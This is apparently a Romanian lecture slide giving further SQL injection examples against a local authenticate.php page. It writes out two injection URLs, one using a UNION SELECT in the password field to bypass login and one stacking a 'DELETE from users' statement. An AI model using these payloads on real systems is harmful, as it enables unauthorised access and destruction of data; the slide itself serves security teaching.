

# Alte exemple de SQL injection
http://localhost/~forest/security/sql-injection/example-1/authenticate.php?user=forest&pass=wrong' UNION select all 1,2,3,4+'

Se poate pe unele platforme si sa executam mai multe instructiuni SQL impreuna:
http://localhost/~forest/security/sql-injection/example-1/authenticate.php?user=forest&pass=wrong'; DELETE from users --'     (for Microsoft SQL server 2000)